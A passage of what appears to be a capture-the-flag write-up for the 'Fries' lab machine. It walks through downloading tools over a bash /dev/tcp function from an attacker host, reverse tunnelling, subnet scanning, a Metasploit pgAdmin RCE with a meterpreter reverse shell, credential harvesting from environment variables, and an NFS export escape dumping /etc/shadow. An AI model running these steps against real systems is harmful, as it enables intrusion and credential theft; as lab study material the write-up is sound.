Since we did not have standard tools like `curl` available we defined a custom function to perform `HTTP Requests` using pure `bash`.

```shell
function __curl() {
  read proto server path <<<$(echo ${1//// })
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [[ x"${HOST}" == x"${PORT}" ]] && PORT=80

  exec 3<>/dev/tcp/${HOST}/$PORT
  echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
  (while read line; do
   [[ "$line" == $'\r' ]] && break
  done && cat) <&3
  exec 3>&-
}
```

## Port Forwarding Part 1

To access the internal network we needed to set up `Port Forwarding` using `Chisel`. We changed to the `/tmp` directory and downloaded the `Chisel` binary.

```shell
pwd
/tmp
```

```shell
__curl http://10.10.16.97/chisel > chisel
```

On our attack machine we started the `Chisel Server` in `Reverse` mode.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Fries/serve]
└─$ ./chisel server -p 9002 -reverse -v
2025/11/22 20:43:50 server: Reverse tunnelling enabled
2025/11/22 20:43:50 server: Fingerprint LeAyhdhqPjduqftaefsmbswPDDKs9LLoiG67sc3l8cg=
2025/11/22 20:43:50 server: Listening on http://0.0.0.0:9002
```

```shell
chmod +x chisel
```

Back on the target we made the binary executable and connected to our `Chisel Server` creating a `SOCKS Proxy`.

```shell
./chisel client 10.10.16.97:9002 R:socks
2025/11/23 02:44:57 client: Connecting to ws://10.10.16.97:9002
2025/11/23 02:44:57 client: Connected (Latency 15.5731ms)
```

## Subnet Enumeration

With the `SOCKS Proxy` established we could now enumerate the internal `172.18.0.0/24` subnet using `Proxychains`.

```shell
┌──(kali㉿kali)-[~]
└─$ proxychains4 -q netexec ssh 172.18.0.0/24
SSH         172.18.0.5      22     172.18.0.5       [*] SSH-2.0-OpenSSH_9.7
SSH         172.18.0.1      22     172.18.0.1       [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.13
Running nxc against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
```

For more comprehensive scanning we used `fscan` which is a fast network scanner.

- [https://github.com/shadow1ng/fscan](https://github.com/shadow1ng/fscan)

```shell
__curl http://10.10.16.97/fscan > fscan
```

```shell
chmod +x fscan
```

The scan revealed multiple services running on the `172.18.0.0/24` network including `HTTP` on `172.18.0.1` and `172.18.0.4`, `HTTPS` on `172.18.0.1` and `172.18.0.6:8443`, `Gitea` on port `3000`, and `PostgreSQL` on `172.18.0.3`.

```shell
./fscan -h 172.18.0.0/24 -np

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.4
start infoscan
172.18.0.1:22 open
172.18.0.5:22 open
172.18.0.1:80 open
172.18.0.4:80 open
172.18.0.1:443 open
172.18.0.3:5432 open
172.18.0.5:3000 open
172.18.0.1:3000 open
172.18.0.6:8443 open
172.18.0.1:8443 open
[*] alive ports len is: 10
start vulscan
[-] 172.18.0.3:5432 scan error: setting PGLOCALEDIR not supported
[*] WebTitle http://172.18.0.1         code:302 len:154    title:302 Found 跳转url: http://fries.htb/
[*] WebTitle http://172.18.0.4         code:302 len:213    title:Redirecting... 跳转url: http://172.18.0.4/login?next=/
[*] WebTitle http://172.18.0.4/login?next=/ code:200 len:6182   title:pgAdmin 4
[*] WebTitle http://172.18.0.1:3000    code:200 len:13602  title:Gitea: Git with a cup of tea
[*] WebTitle http://172.18.0.5:3000    code:200 len:13602  title:Gitea: Git with a cup of tea
[*] WebTitle https://172.18.0.1        code:200 len:82     title:None
[*] WebTitle https://172.18.0.6:8443   code:200 len:82     title:None
[*] WebTitle https://172.18.0.1:8443   code:200 len:82     title:None
[+] InfoScan http://172.18.0.1:3000    [Gitea简易Git服务] 
[+] InfoScan http://172.18.0.5:3000    [Gitea简易Git服务] 
已完成 9/10 [-] ssh 172.18.0.1:22 root root123 ssh: handshake failed: ssh: unable to authenticate, attempted methods [none password], no supported methods remain 
已完成 9/10 [-] ssh 172.18.0.1:22 root 123456~a ssh: handshake failed: ssh: unable to authenticate, attempted methods [none password], no supported methods remain 
已完成 9/10 [-] ssh 172.18.0.1:22 root Aa12345. ssh: handshake failed: ssh: unable to authenticate, attempted methods [none password], no supported methods remain 
已完成 9/10 [-] ssh 172.18.0.1:22 admin 123 ssh: handshake failed: ssh: unable to authenticate, attempted methods [none password], no supported methods remain 
已完成 9/10 [-] ssh 172.18.0.1:22 admin 123qwe!@# ssh: handshake failed: ssh: unable to authenticate, attempted methods [none password], no supported methods remain 
已完成 9/10 [-] ssh 172.18.0.1:22 admin Aa12345. ssh: handshake failed: ssh: unable to authenticate, attempted methods [none password], no supported methods remain 
已完成 10/10
[*] 扫描结束,耗时: 9m47.4852092s
```

## Password Self Service Enumeration

The service running on `172.18.0.1` on port `8443/TCP` was a `Password Self Service (PWM)` portal.

- [https://172.18.0.1:8443/pwm/private/login](https://172.18.0.1:8443/pwm/private/login)


After a quick research we figured out that `PWM` is an open-source password self-service application.

- [https://github.com/pwm-project/pwm](https://github.com/pwm-project/pwm)

When we tested various usernames we received an error message that revealed the username `svc_infra` was valid and also disclosed `LDAP Connection` details.


| Username  |
| --------- |
| svc_infra |

```shell
Directory unavailable. If this error occurs repeatedly please contact your help desk.  
  

5017 ERROR_DIRECTORY_UNAVAILABLE (all ldap profiles are unreachable; errors: ["error connecting as proxy user: unable to create connection: unable to connect to ldap url, error: unable to bind to ldaps://dc01.fries.htb:636 as CN=svc_infra,CN=Users,DC=fries,DC=htb reason: CommunicationException (dc01.fries.htb:636; server certificate {subject=} does not match a certificate in the PWM configuration trust store.)"])
```

## CVE-2025-2945: pgAdmin Query Tool authenticated Remote Code Execution (RCE)

To obtain better access and gather more information we decided to use the `Metasploit` module for `CVE-2025-2945` which is an `Authenticated Remote Code Execution` (`RCE`) vulnerability in `pgAdmin`.

- [https://www.rapid7.com/db/modules/exploit/multi/http/pgadmin_query_tool_authenticated/](https://www.rapid7.com/db/modules/exploit/multi/http/pgadmin_query_tool_authenticated/)

We launched `msfconsole` and configured the exploit module with our credentials and target information.

```shell
┌──(kali㉿kali)-[~]
└─$ msfconsole
Metasploit tip: View a module's description using info, or the enhanced 
version in your browser with info -d
                                                  
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%     %%%         %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  %%  %%%%%%%%   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  %  %%%%%%%%   %%%%%%%%%%% https://metasploit.com %%%%%%%%%%%%%%%%%%%%%%%%
%%  %%  %%%%%%   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  %%%%%%%%%   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%  %%%  %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%    %%   %%%%%%%%%%%  %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%  %%%  %%%%%
%%%%  %%  %%  %      %%      %%    %%%%%      %    %%%%  %%   %%%%%%       %%
%%%%  %%  %%  %  %%% %%%%  %%%%  %%  %%%%  %%%%  %% %%  %% %%% %%  %%%  %%%%%
%%%%  %%%%%%  %%   %%%%%%   %%%%  %%%  %%%%  %%    %%  %%% %%% %%   %%  %%%%%
%%%%%%%%%%%% %%%%     %%%%%    %%  %%   %    %%  %%%%  %%%%   %%%   %%%     %
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%  %%%%%%% %%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%          %%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


       =[ metasploit v6.4.97-dev                                ]
+ -- --=[ 2,570 exploits - 1,316 auxiliary - 1,683 payloads     ]
+ -- --=[ 433 post - 49 encoders - 13 nops - 9 evasion          ]

Metasploit Documentation: https://docs.metasploit.com/
The Metasploit Framework is a Rapid7 Open Source Project

msf > search pgAdmin

Matching Modules
================

   #  Name                                                 Disclosure Date  Rank       Check  Description
   -  ----                                                 ---------------  ----       -----  -----------
   0  exploit/windows/http/pgadmin_binary_path_api         2024-03-28       excellent  Yes    pgAdmin Binary Path API RCE
   1  exploit/multi/http/pgadmin_query_tool_authenticated  2025-04-03       excellent  Yes    pgAdmin Query Tool authenticated RCE (CVE-2025-2945)
   2  exploit/multi/http/pgadmin_session_deserialization   2024-03-04       excellent  Yes    pgAdmin Session Deserialization RCE


Interact with a module by name or index. For example info 2, use 2 or use exploit/multi/http/pgadmin_session_deserialization

msf > use 1
[*] Using configured payload python/meterpreter/reverse_tcp
msf exploit(multi/http/pgadmin_query_tool_authenticated) > show options

Module options (exploit/multi/http/pgadmin_query_tool_authenticated):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   DB_NAME                         yes       The database to authenticate to
   DB_PASS                         yes       The password to authenticate to the database with
   DB_USER                         yes       The username to authenticate to the database with
   MAX_SERVER_ID  10               yes       The maximum number of Server IDs to try and connect to.
   PASSWORD                        yes       The password to authenticate to pgadmin with
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxies: socks5, socks5h, sapni, http, socks4
   RHOSTS                          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT          80               yes       The target port (TCP)
   SSL            false            no        Negotiate SSL/TLS for outgoing connections
   USERNAME                        yes       The username to authenticate to pgadmin with
   VHOST                           no        HTTP server virtual host


Payload options (python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Python payload


View the full module info with the info, or info -d command.

msf exploit(multi/http/pgadmin_query_tool_authenticated) >
msf exploit(multi/http/pgadmin_query_tool_authenticated) > set DB_NAME ps_db
DB_NAME => ps_db
msf exploit(multi/http/pgadmin_query_tool_authenticated) > set DB_PASS PsqLR00tpaSS11
DB_PASS => PsqLR00tpaSS11
msf exploit(multi/http/pgadmin_query_tool_authenticated) > set DB_USER root
DB_USER => root
msf exploit(multi/http/pgadmin_query_tool_authenticated) > set PASSWORD D4LE11maan!!
PASSWORD => D4LE11maan!!
msf exploit(multi/http/pgadmin_query_tool_authenticated) > set USERNAME d.cooper@fries.htb
USERNAME => d.cooper@fries.htb
msf exploit(multi/http/pgadmin_query_tool_authenticated) > set RHOSTS db-mgmt05.fries.htb
RHOSTS => db-mgmt05.fries.htb
msf exploit(multi/http/pgadmin_query_tool_authenticated) > set LHOST 10.10.16.97
LHOST => 10.10.16.97
msf exploit(multi/http/pgadmin_query_tool_authenticated) > set LPORT 1234
LPORT => 1234
msf exploit(multi/http/pgadmin_query_tool_authenticated) > run
[*] Started reverse TCP handler on 10.10.16.97:1234 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. pgAdmin version 9.1.0 is affected
[+] Successfully authenticated to pgAdmin
[+] Successfully initialized sqleditor
[*] Exploiting the target...
[*] Sending stage (23404 bytes) to 10.129.23.91
[+] Received a 500 response from the exploit attempt, this is expected
[*] Meterpreter session 1 opened (10.10.16.97:1234 -> 10.129.23.91:49846) at 2025-11-23 00:13:11 +0100

meterpreter > 
```

From the `Meterpreter` session we dropped into a `shell` and examined the environment variables which revealed another set of credentials.

```shell
meterpreter > shell
Process 56 created.
Channel 2 created.
env
HOSTNAME=cb46692a4590
SHLVL=1
PGADMIN_DEFAULT_PASSWORD=Friesf00Ds2025!!
CONFIG_DISTRO_FILE_PATH=/pgadmin4/config_distro.py
HOME=/home/pgadmin
PGADMIN_DEFAULT_EMAIL=admin@fries.htb
SERVER_SOFTWARE=gunicorn/22.0.0
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
OAUTHLIB_INSECURE_TRANSPORT=1
PWD=/pgadmin4
PGAPPNAME=pgAdmin 4 - CONN:5614065
PYTHONPATH=/pgadmin4
```


| Username | Password         |
| -------- | ---------------- |
| svc      | Friesf00Ds2025!! |

We used these credentials to authenticate via `SSH` to the host as the `svc` user.

```shell
┌──(kali㉿kali)-[~]
└─$ ssh svc@fries.htb
The authenticity of host 'fries.htb (10.129.79.133)' can't be established.
ED25519 key fingerprint is: SHA256:++SuiiJ+ZwG7d5q6fb9KqhQRx1gGhVOfGR24bbTuipg
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:1: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'fries.htb' (ED25519) to the list of known hosts.
svc@fries.htb's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 6.8.0-87-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sun Nov 23 06:14:56 AM UTC 2025

  System load:  0.19               Processes:             174
  Usage of /:   66.5% of 13.67GB   Users logged in:       0
  Memory usage: 48%                IPv4 address for eth0: 192.168.100.2
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

1 additional security update can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Wed Nov 19 20:53:19 2025 from 10.10.14.77
svc@web:~$ 
```

## Enumeration (web)

And as the user `svc` we repeated the basic `Enumeration` as always.

```shell
svc@web:~$ id
uid=1000(svc) gid=1000(svc) groups=1000(svc)
```

The `/etc/passwd` file revealed an interesting user called `barman` which is a `PostgreSQL` backup and recovery manager.

```shell
svc@web:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
svc:x:1000:1000:svc:/home/svc:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
_rpc:x:114:65534::/run/rpcbind:/usr/sbin/nologin
statd:x:115:65534::/var/lib/nfs:/usr/sbin/nologin
dnsmasq:x:116:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
barman:x:117:120:Backup and Recovery Manager for PostgreSQL,,,:/var/lib/barman:/bin/bash
sssd:x:118:121:SSSD system user,,,:/var/lib/sss:/usr/sbin/nologin
```

| Username |
| -------- |
| barman   |

Unfortunately for us the `svc` user did not have `sudo` privileges.

```shell
svc@web:~$ sudo -l
[sudo] password for svc: 
Sorry, user svc may not run sudo on web.
```

We ran `PSPY` to monitor running processes and noticed `cron` jobs executing `/usr/bin/barman` periodically.

```shell
svc@web:/tmp$ ./pspy64
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
<--- CUT FOR BREVITY --->
```

```shell
<--- CUT FOR BREVITY --->
2025/11/23 06:31:01 CMD: UID=117   PID=2983   | /usr/bin/python3 /usr/bin/barman -q cron 
2025/11/23 06:32:01 CMD: UID=0     PID=2992   | /usr/sbin/CRON -f -P 
2025/11/23 06:32:01 CMD: UID=0     PID=2993   | /usr/sbin/CRON -f -P 
2025/11/23 06:32:01 CMD: UID=117   PID=2994   | /usr/bin/python3 /usr/bin/barman -q cron 
2025/11/23 06:33:01 CMD: UID=0     PID=3003   | /usr/sbin/CRON -f -P 
2025/11/23 06:33:01 CMD: UID=0     PID=3004   | /usr/sbin/CRON -f -P 
2025/11/23 06:33:01 CMD: UID=117   PID=3005   | /bin/sh -c [ -x /usr/bin/barman ] && /usr/bin/barman -q cron
<--- CUT FOR BREVITY --->
```

```shell
svc@web:~$ cat /etc/krb5.conf
[libdefaults]
default_realm = FRIES.HTB
rdns = no
dns_lookup_kdc = true
dns_lookup_realm = true

[realms]
FRIES.HTB = {
kdc = dc01.fries.htb
admin_server = dc01.fries.htb
}
```

Checking listening ports we noticed several `Docker-related` services and port `2049` which is typically used for `NetworkFileSystem` (`NFS`).

```shell
svc@web:~$ ss -tulpn
Netid                                        State                                         Recv-Q                                        Send-Q                                                                               Local Address:Port                                                                                  Peer Address:Port                                        Process                                        
udp                                          UNCONN                                        0                                             0                                                                                          0.0.0.0:42385                                                                                      0.0.0.0:*                                                                                          
udp                                          UNCONN                                        0                                             0                                                                                    127.0.0.53%lo:53                                                                                         0.0.0.0:*                                                                                          
udp                                          UNCONN                                        0                                             0                                                                                          0.0.0.0:111                                                                                        0.0.0.0:*                                                                                          
udp                                          UNCONN                                        0                                             0                                                                                          0.0.0.0:47702                                                                                      0.0.0.0:*                                                                                          
udp                                          UNCONN                                        0                                             0                                                                                          0.0.0.0:58095                                                                                      0.0.0.0:*                                                                                          
udp                                          UNCONN                                        0                                             0                                                                                          0.0.0.0:47864                                                                                      0.0.0.0:*                                                                                          
udp                                          UNCONN                                        0                                             0                                                                                        127.0.0.1:803                                                                                        0.0.0.0:*                                                                                          
udp                                          UNCONN                                        0                                             0                                                                                          0.0.0.0:41992                                                                                      0.0.0.0:*                                                                                          
udp                                          UNCONN                                        0                                             0                                                                                             [::]:44909                                                                                         [::]:*                                                                                          
udp                                          UNCONN                                        0                                             0                                                                                             [::]:111                                                                                           [::]:*                                                                                          
udp                                          UNCONN                                        0                                             0                                                                                             [::]:57531                                                                                         [::]:*                                                                                          
udp                                          UNCONN                                        0                                             0                                                                                             [::]:53987                                                                                         [::]:*                                                                                          
udp                                          UNCONN                                        0                                             0                                                                                             [::]:37857                                                                                         [::]:*                                                                                          
udp                                          UNCONN                                        0                                             0                                                                                             [::]:54359                                                                                         [::]:*                                                                                          
tcp                                          LISTEN                                        0                                             4096                                                                                       0.0.0.0:60729                                                                                      0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             4096                                                                                    172.18.0.1:3000                                                                                       0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             4096                                                                                       0.0.0.0:42189                                                                                      0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             4096                                                                                 127.0.0.53%lo:53                                                                                         0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             511                                                                                        0.0.0.0:443                                                                                        0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             4096                                                                                     127.0.0.1:2376                                                                                       0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             4096                                                                                       0.0.0.0:51515                                                                                      0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             4096                                                                                       0.0.0.0:8443                                                                                       0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             64                                                                                         0.0.0.0:2049                                                                                       0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             128                                                                                        0.0.0.0:22                                                                                         0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             4096                                                                                     127.0.0.1:222                                                                                        0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             511                                                                                        0.0.0.0:80                                                                                         0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             4096                                                                                       0.0.0.0:111                                                                                        0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             64                                                                                         0.0.0.0:34921                                                                                      0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             4096                                                                                     127.0.0.1:43253                                                                                      0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             4096                                                                                       0.0.0.0:35725                                                                                      0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             4096                                                                                     127.0.0.1:5000                                                                                       0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             4096                                                                                     127.0.0.1:5050                                                                                       0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             4096                                                                                     127.0.0.1:3000                                                                                       0.0.0.0:*                                                                                          
tcp                                          LISTEN                                        0                                             4096                                                                                          [::]:48359                                                                                         [::]:*                                                                                          
tcp                                          LISTEN                                        0                                             64                                                                                            [::]:46767                                                                                         [::]:*                                                                                          
tcp                                          LISTEN                                        0                                             511                                                                                           [::]:443                                                                                           [::]:*                                                                                          
tcp                                          LISTEN                                        0                                             4096                                                                                          [::]:53703                                                                                         [::]:*                                                                                          
tcp                                          LISTEN                                        0                                             4096                                                                                          [::]:8443                                                                                          [::]:*                                                                                          
tcp                                          LISTEN                                        0                                             64                                                                                            [::]:2049                                                                                          [::]:*                                                                                          
tcp                                          LISTEN                                        0                                             128                                                                                           [::]:22                                                                                            [::]:*                                                                                          
tcp                                          LISTEN                                        0                                             511                                                                                           [::]:80                                                                                            [::]:*                                                                                          
tcp                                          LISTEN                                        0                                             4096                                                                                          [::]:111                                                                                           [::]:*                                                                                          
tcp                                          LISTEN                                        0                                             4096                                                                                          [::]:58203                                                                                         [::]:*                                                                                          
tcp                                          LISTEN                                        0                                             4096                                                                                          [::]:41679                                                                                         [::]:*
```

## Accessing 172.18.0.1

### Port Forwarding Part 2

To access services on `172.18.0.1` from our attack machine we set up `Ligolo-ng` for more flexible tunneling. First we created a `Tunnel Interface`.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo ip tuntap add user $(whoami) mode tun ligolo
[sudo] password for kali:
```

```shell
┌──(kali㉿kali)-[~]
└─$ sudo ip link set ligolo up
```

Then we started the `Ligolo Proxy` on our attack machine.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Fries/serve]
└─$ ./proxy -laddr 10.10.16.97:443 -selfcert
```

```shell
./agent -connect 10.10.16.97:443 -ignore-cert
time="2025-11-23T14:53:45Z" level=warning msg="warning, certificate validation disabled"
time="2025-11-23T14:53:45Z" level=info msg="Connection established" addr="10.10.16.97:443"
```

```shell
ligolo-ng » session
? Specify a session : 1 - postgres@858fdf51af59 - 10.129.23.91:49830 - e63eac6d2171
```

```shell
┌──(kali㉿kali)-[~]
└─$ sudo ip r add 172.18.0.0/24 dev ligolo
```

```shell
[Agent : postgres@858fdf51af59] » start
INFO[0189] Starting tunnel to postgres@858fdf51af59 (e63eac6d2171)
```

### NFS Access

With the tunnel established we used `nfs_analyze` from the `nfs-security-tooling` package to enumerate the `NFS` service.

- [https://github.com/hvs-consulting/nfs-security-tooling](https://github.com/hvs-consulting/nfs-security-tooling)

```shell
┌──(kali㉿kali)-[~]
└─$ sudo pipx install git+https://github.com/hvs-consulting/nfs-security-tooling.git
  installed package nfs_security_tooling 0.1, installed using Python 3.13.9
  These apps are now globally available
    - fuse_nfs
    - nfs_analyze
⚠️  Note: '/root/.local/bin' is not on your PATH environment variable. These apps will not be globally accessible until your PATH is updated. Run `pipx ensurepath` to automatically add it, or manually modify your PATH in your shell's config file (e.g. ~/.bashrc).
done! ✨ 🌟 ✨
```

```shell
┌──(root㉿kali)-[/home/kali]
└─# /root/.local/share/pipx/venvs/nfs-security-tooling/bin/nfs_analyze 172.18.0.1
Checking host 172.18.0.1
Supported protocol versions reported by portmap:
Protocol          Versions  
portmap           2, 3, 4   
mountd            1, 2, 3   
status monitor 2  1         
nfs               3, 4      
nfs acl           3         
nfs lock manager  1, 3, 4   

Available Exports reported by mountd:
Directory           Allowed clients  Auth methods  Export file handle                                        
/srv/web.fries.htb  *(wildcard)      sys           0100070001000a00000000008a01da16c18a400cbc9b37e3567d3fba  

Connected clients reported by mountd:
Client               Export              
172.18.0.3(up)       /srv/web.fries.htb  
192.168.100.2(down)  /srv/web.fries.htb  

Supported NFS versions reported by nfsd:
Version  Supported  
3        Yes        
4.0      Yes        
4.1      Yes        
4.2      Yes        

NFSv3 Windows File Handle Signing: OK, server probably not Windows, File Handle not 32 bytes long

Trying to escape exports
Export: /srv/web.fries.htb: file system type ext/xfs, parent: None, 655363
Escape successful, root directory listing:
lib64 mnt sys etc proc lib snap lost+found media tmp dev var .bash_history .. swap.img srv home libx32 bin root usr . sbin lib32 opt boot run
Root file handle: 0100070201000a00000000008a01da16c18a400cbc9b37e3567d3fba02000000000000000200000000000000

GID of shadow group: 42
Content of /etc/shadow:
root:$y$j9T$yqbmFwMbHh7qoaRaY3jx..$FMFv9upB20J4yPWwAJxndkOA4zzrn5/Udv4BF9LbLq/:20239:0:99999:7:::
daemon:*:19579:0:99999:7:::                                                                                                                                                                                                                                                                                                                                                                                                               
bin:*:19579:0:99999:7:::                                                                                                                                                                                                                                                                                                                                                                                                                  
sys:*:19579:0:99999:7:::                                                                                                                                                                                                                                                                                                                                                                                                                  
sync:*:19579:0:99999:7:::                                                                                                                                                                                                                                                                                                                                                                                                                 
games:*:19579:0:99999:7:::                                                                                                                                                                                                                                                                                                                                                                                                                
man:*:19579:0:99999:7:::                                                                                                                                                                                                                                                                                                                                                                                                                  
lp:*:19579:0:99999:7:::                                                                                                                                                                                                                                                                                                                                                                                                                   
mail:*:19579:0:99999:7:::                                                                                                                                                                                                                                                                                                                                                                                                                 
news:*:19579:0:99999:7:::                                                                                                                                                                                                                                                                                                                                                                                                                 
uucp:*:19579:0:99999:7:::                                                                                                                                                                                                                                                                                                                                                                                                                 
proxy:*:19579:0:99999:7:::                                                                                                                                                                                                                                                                                                                                                                                                                
www-data:*:19579:0:99999:7:::                                                                                                                                                                                                                                                                                                                                                                                                             
backup:*:19579:0:99999:7:::                                                                                                                                                                                                                                                                                                                                                                                                               
list:*:19579:0:99999:7:::                                                                                                                                                                                                                                                                                                                                                                                                                 
irc:*:19579:0:99999:7:::                                                                                                                                                                                                                                                                                                                                                                                                                  
gnats:*:19579:0:99999:7:::                                                                                                                                                                                                                                                                                                                                                                                                                
nobody:*:19579:0:99999:7:::                                                                                                                                                                                                                                                                                                                                                                                                               
_apt:*:19579:0:99999:7:::                                                                                                                                                                                                                                                                                                                                                                                                                 
systemd-network:*:19579:0:99999:7:::                                                                                                                                                                                                                                                                                                                                                                                                      
systemd-resolve:*:19579:0:99999:7:::                                                                                                                                                                                                                                                                                                                                                                                                      
messagebus:*:19579:0:99999:7:::                                                                                                                                                                                                                                                                                                                                                                                                           
systemd-timesync:*:19579:0:99999:7:::                                                                                                                                                                                                                                                                                                                                                                                                     
